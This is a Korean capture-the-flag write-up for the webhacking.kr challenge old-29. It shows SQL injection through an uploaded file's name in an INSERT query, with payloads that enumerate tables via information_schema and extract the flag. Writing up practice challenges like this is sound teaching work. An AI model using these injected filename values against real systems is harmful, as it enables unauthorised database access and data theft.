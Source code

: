 ```yaml
---
title: ["[Webhacking.kr] old-29"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, php]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-29/recon.png)

업로드한 파일의 리스트를 출력해준다.  
ip를 기준으로 결과 table이 출력되는 것을 보아 쿼리가 다음과 같을 것이다.  
```mysql
SELECT time, ip, file FROM chall29 WHERE ip='{$REMOTE_ADDR}';
```  


그리고 파일을 업로드할 때는 다음과 같은 쿼리가 실행될 것이다.  
```mysql
INSERT into chall29 values(time, ip, file)
```  


## Analysis

```mysql
INSERT into chall29 values(time, ip, file)
```  
만약 데이터를 insert하는 쿼리가 다음과 같다면,  
file 이름에 sql injection을 다음과 같이 트리거할 수 있다.  

```mysql
INSERT into chall29 values(time, ip, file1), (time, ip, file2)
```  

하지만 서버에서 upload error를 출력했다.  

이는 쿼리문이 예상대로 생기지 않았다는 의미이다.  
`no`와 같은 컬럼이 추가로 있을 수도 있지만,  
블랙박스 SQLi에서 새로운 컬럼을 추가하진 않았을 것이다.  

데이터를 insert하는 순서가 달라질 수 있다.  

```mysql
INSERT into chall29 values(file, time, ip)
```  
여러 시도 끝에 위와 같은 순서로 이루어져있음을 알 수 있었다.  

file 이름을 `test1',1732520229,'45.67.97.61'),'test2` 이렇게 설정하면 인젝션이 성공하게 된다.  

다른 테이블에 있는 flag를 읽어오기 위해, DB명과 테이블명 컬럼명을 알아내보자.  

```
filename="test1',1732520229,'45.67.97.61'),(database(),1732520229,'45.67.97.61'),('test3" 
// chall29

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 0,1),1732520229,'45.67.97.59'),('test3"
// files

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 1,2),1732520229,'45.67.97.59'),('test3"
// flag_congratz

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 2,3),1732520229,'45.67.97.59'),('test3"
// upload error!

filename="test1',1732520229,'45.67.97.59'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 0,1),1732520229,'45.67.97.59'),('test3"
// flag

filename="test1',1732520229,'45.67.97.59'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 1,2),1732520229,'45.67.97.59'),('test3"
// upload error!

filename="test1',1732520229,'45.67.97.59'),((select flag from flag_congratz limit 0,1),1732520229,'45.67.97.59'),('test3"
// FLAG{didYouFeelConfused?_sorry:)}
```



